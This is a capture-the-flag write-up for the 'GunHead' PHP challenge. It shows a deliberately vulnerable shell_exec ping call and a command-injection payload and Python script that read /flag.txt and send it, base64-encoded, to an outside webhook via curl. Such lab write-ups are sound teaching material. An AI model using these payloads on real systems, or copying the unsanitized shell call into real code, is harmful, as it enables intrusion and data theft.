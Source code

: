 ## GunHead :: Easy
#### Scenario 

```
During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable.
With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently
 needs to take it down.
```

#### Solve

Our mission in this challenge is to disable the **Gunhead** combat robot.

Here is the landing page:
![](/images/gunhead_index.png)

While exploring the application, I could not help but notice the terminal icon on the sidebar of the **Gunhead** view.

This icon opens some kind of web based terminal containing certains commands.
![](/images/gunhead_commands.png)

Let's take a look at the source !

The application is written in PHP, and seems to use the MVC design pattern.
This means that we have to go look at the controller to understand which function is bound to which endpoint.
Following this will lead us to the executed code when we trigger this endpoint.

`ReconController.php`:
```php
<?php
class ReconController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']); // WE initiate a ReconModel instance.

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
}
```

Let's go look at the source for the `ReconModel` object.

```php
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```

Here we can see that the object execute a raw shell command with the unsanitized user input.

This means that command injection is possible.
We can obtain command execution on the server this way.

Let's craft our exploit:

![](/images/command_injection.png)

We can inject a command by terminating the ping command using a semicolon.
We can then add our own command which will be executing, wether the ping command fails or succeeds.

```bash
;curl https://webhook.site/3578d2dc-d2dd-468b-a8c9-9bda1f8d1281;
```

#### Exploit Script

```python
#!/usr/bin/env python3
import requests

TARGET = "http://localhost:1337"
HOOK = "<your-hook>"
PING_ENDPOINT = "/api/ping"
PAYLOAD = {"ip": f";curl {HOOK}/$(cat /flag.txt|base64 -w0);"}


if __name__ == "__main__":
    print("[*] Exploitating command injection in Gunhead ...")
    requests.post(TARGET + PING_ENDPOINT, json=PAYLOAD)
```

Once you ran this script, check your hook and you can extract the base64 encoded flag.



